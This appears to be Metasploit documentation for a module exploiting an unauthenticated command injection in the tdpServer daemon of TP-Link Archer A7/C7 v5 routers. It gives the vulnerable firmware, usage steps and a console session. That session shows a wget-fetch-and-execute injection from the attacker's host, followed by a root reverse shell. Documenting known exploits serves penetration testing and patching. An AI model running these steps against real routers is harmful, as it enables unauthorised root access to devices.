 ## Description

This module exploits a command injection vulnerability in the tdpServer daemon (/usr/bin/tdpServer), running on the router TP-Link Archer A7/C7 (AC1750), hardware version 5, MIPS Architecture, firmware version 190726.
The vulnerability can only be exploited by an attacker on the LAN side of the router, but the attacker does not need any authentication to abuse it. After exploitation, an attacker will be able to execute any command as root, including downloading and executing a binary from another host.

This vulnerability was discovered and exploited at Pwn2Own Tokyo 2019 by the Flashback team (Pedro Ribeiro + Radek Domanski).
This module was updated in November 2020, after a bypass was discovered for the patch TP-Link issued. The new injection technique works on older firmware too. All firmware versions up to (but excluding) releases 201029 and 201030 are exploitable.


## Vulnerable Application

TP-Link Archer A7 (AC1750) v5 firmware version 190726
TP-Link Archer C7 (AC1750) v5 firmware version 190726

[Firmware TP-Link Archer A7](https://static.tp-link.com/2019/201908/20190827/Archer%20A7(EU)_V5_190811.zip)
[Firmware TP-Link Archer C7](https://static.tp-link.com/2019/201908/20190816/Archer%20C7(EU)_V5_190726.zip)


## Verification Steps
  Example steps in this format (is also in the PR):

  1. Connect to a target on the LAN interface
  2. Start msfconsole
  3. Do: ```use exploits/linux/misc/tplink_archer_a7_c7_lan_rce```
  4. Set RHOST, LHOST and SRVHOST
  5. Do ```check```
  6. Do: ```run```
  7. You should get a shell.
 
## Options
```
Module options (exploit/linux/misc/tplink_archerC7_lan_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    20002            yes       The target port (TCP)
   SRVHOST                   yes       IP address of the host serving the exploit
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/mipsbe/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```

## Scenarios
~~~
msf5 > use exploits/linux/misc/tplink_archer_a7_c7_lan_rce
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > set RHOST 192.168.0.1
RHOST => 192.168.0.1
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > set LHOST 192.168.0.238
LHOST => 192.168.0.238
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > set SRVHOST 192.168.0.238
SRVHOST => 192.168.0.238
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > check 
[+] 192.168.0.1:20002 - The target is vulnerable.
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > 
[*] Started reverse TCP handler on 192.168.0.238:4444 
[*] Attempting to exploit TP-Link Archer A7/C7 (AC1750) v5 (firmware 190726)
[*] Starting up our web service on http://192.168.0.238:4445 ...
[*] Using URL: http://192.168.0.238:4445/x
[*] 192.168.0.1:20002 - Connecting to the target
[*] 192.168.0.1:20002 - Sending command file byte by byte
[*] 192.168.0.1:20002 - Command: wget http://192.168.0.238:4445/x;chmod +x x;./x
[*] 192.168.0.1:20002 - [0%]= = => - - - - - - - - - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = => - - - - - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = => - - - - - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = = = = = => - - - -[100%]
[*] 192.168.0.1:20002 - [0%]= = = = = = = = = = = = = = = = = = =>[100%]
[*] 192.168.0.1:20002 - Command file sent, attempting to execute...
[+] 192.168.0.1:20002 - Sending executable to the router
[+] 192.168.0.1:20002 - Sit back and relax, Shelly will come visit soon!
[*] Command shell session 1 opened (192.168.0.238:4444 -> 192.168.0.1:48112) at 2020-03-26 16:47:09 +0100
[*] Server stopped.

msf5 exploit(linux/misc/tplink_archer_a7_c7_lan_rce) > sessions 1
[*] Starting interaction with 1...

id
uid=0(root) gid=0(root)
uname -a
Linux ArcherC7v5 3.3.8 #1 Mon May 20 18:53:02 CST 2019 mips GNU/Linux
~~~
